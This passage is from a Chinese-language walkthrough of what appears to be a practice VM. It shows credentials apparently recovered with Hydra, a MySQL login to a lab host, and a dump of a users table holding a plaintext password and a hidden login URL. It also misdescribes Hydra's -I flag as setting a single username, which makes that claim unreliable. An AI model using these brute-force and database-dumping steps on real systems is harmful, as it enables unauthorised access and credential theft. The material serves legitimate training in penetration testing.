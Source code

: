 ```apl
trainerjeff
soccer1
```

也可以使用`-V`和`-I`直观一点，防止hydra偷懒，狗头.jpg

> - `-V`：此参数在Hydra中用于显示详细的执行过程。当你使用这个参数时，Hydra会输出更多的信息，帮助你了解工具在执行过程中的具体步骤和状态。
> - `-I`：此参数用于指定单个用户名。在你知道目标系统的某个用户名，并希望尝试爆破其密码时，可以使用这个参数。通过指定用户名，Hydra会针对这个用户名尝试破解密码。

### 连接数据库

```bash
mysql -u trainerjeff -h 10.0.2.19 -p
soccer1
```

查询一下信息：

```bash
┌──(kali💀kali)-[~]
└─$ mysql -u trainerjeff -h 10.0.2.19 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 1117
Server version: 8.0.35-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| trainers_db        |
+--------------------+
5 rows in set (0.103 sec)

MySQL [(none)]> use trainers_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [trainers_db]> show tables;
+-----------------------+
| Tables_in_trainers_db |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.002 sec)

MySQL [trainers_db]> select * from users
    -> ;
+----+-----------------+-------------------------------+
| id | user            | password                      |
+----+-----------------+-------------------------------+
|  1 | gonzalo         | tH1sS2stH3g0nz4l0pAsSWW0rDD!! |
|  2 | $SECRETLOGINURL | /secretLOGIN/login.html       |
+----+-----------------+-------------------------------+
2 rows in set (0.001 sec)
```
